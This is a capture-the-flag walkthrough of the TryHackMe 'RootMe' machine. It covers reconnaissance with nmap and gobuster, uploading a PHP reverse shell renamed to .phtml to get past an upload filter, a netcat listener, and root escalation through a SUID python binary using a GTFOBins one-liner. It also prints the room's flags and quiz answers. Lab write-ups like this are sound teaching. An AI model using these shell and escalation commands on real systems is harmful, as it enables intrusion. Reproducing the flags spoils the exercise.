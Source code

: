 # RootMe

> Platform: TryHackMe
>
> Created by: ReddyyZ
>
> Difficulty: Easy

## Reconnaisance

First of all, we will begin with the Nmap which requires us to answer some of the questions.
```bash
$ nmap -sSVC <TARGET-IP> -T5 -Pn -n -vvv -oA RootMe_nmapscan
```
Actually, you can just use a normal Nmap command, but here is my preferences.

After finish scanning the machine, now we can answer some of the questions:

![img](portopen.png)

**Question: Scan the machine, how many ports are open?**

**Answer: 2**

**Question: What version of Apache is running?**

**Answer: 2.4.29**

**Question: What service is running on port 22?"**

**Answer: ssh**

Then, to know the hidden directory of the target, we need to run the GoBuster tool.
```bash
$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
```

![img](gobuster.png)

**Question: What is the hidden directory?**

**Answer: /panel/**

## Exploitation

Then, after going to the **"/panel"** page, the page allows us to upload a file to the page.

The question ask us to **"Find a form to upload and get a reverse shell, and find the flag."**

For a file to upload, I use the php reverse shell that are included in the Kali Linux which can be found at **"/usr/share/webshells/php/php-reverse-shell.php"**.

So, we just need to copy this file to our folder so that we didnt change the template. Then we need to change the **"IP"** and the **"PORT"** as **our IP and PORT**.
```bash
$ pwd
~/upload

$ cp /usr/share/webshells/php/php-reverse-shell.php php-reverse-shell.php

$ nano php-reverse-shell.php
```

![img](reverseshell.png)

First, I've tried with uploading the file in a **.php format**, but it seems like the page **doesn't allow us to upload a .php file**.

![img](phpwebshellerror.png)

Then, I've tried to change the extension of the file to be in **.phtml format** which also allows us to run PHP scripts.

![img](phpwebshellsuccess.png)

Nice, now before we can view the uploaded file, make sure to run the command in your host machine (make sure to change the PORT as what you have set in the uploaded file before):
```bash
$ nc -lvnp <PORT>
```

So now, we can try to view the uploaded file by clicking the button below that says **"Veja!"** and gain the shell!

![img](gainshell.png)

To find the flag, first of all we need to know which user are we connecting as and find the path of our currect working directory.

```bash
$ whoami
www-data

$ pwd
/
```

So now, we need to find the **user.txt**. After some several times searching for it, the **user.txt is located at "/var/www/"**.
```bash
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```

## 🏳️Flag: user.txt
>**THM{y0u_g0t_a_sh3ll}**

## Privilege Escalation

Moving on to **escalate our privileges to root**.

First we need to find **files with weird SUID permission**. I've tried to read some online tutorials to find the files with weird SUID permission which can be found [here](https://docs.oracle.com/cd/E19683-01/816-4883/6mb2joatb/index.html).
```bash
$ find / -user root -perm -4000 -exec ls -ldb {} \; > /tmp/ckprm

$ cat /tmp/ckprm
```

Then, after some times searching through, I found out that the file with weird SUID permission is the **"/usr/bin/python"**, which **allows anyone to run any Python script as root**.
![img](pythonsuid.png)

**Question: Search for files with SUID permission, which file is weird?**

**Answer: /usr/bin/python**

Then, we need to find a way to **escalate our privileges to root** by using the Python binary.

From [GTFObins - Python](https://gtfobins.github.io/gtfobins/python/), there's a way we can escalate to root by using the using the SUID payloads:
```bash
$ ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

But, we must make sure that we **use the Python binary** to get it running.
```bash
$ ./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
![img](root.png)

Now, we need to read the **"root.txt"** file to complete this machine.

![img](rootflag.png)

## 🏳️Flag: root.txt
>**THM{pr1v1l3g3_3sc4l4t10n}**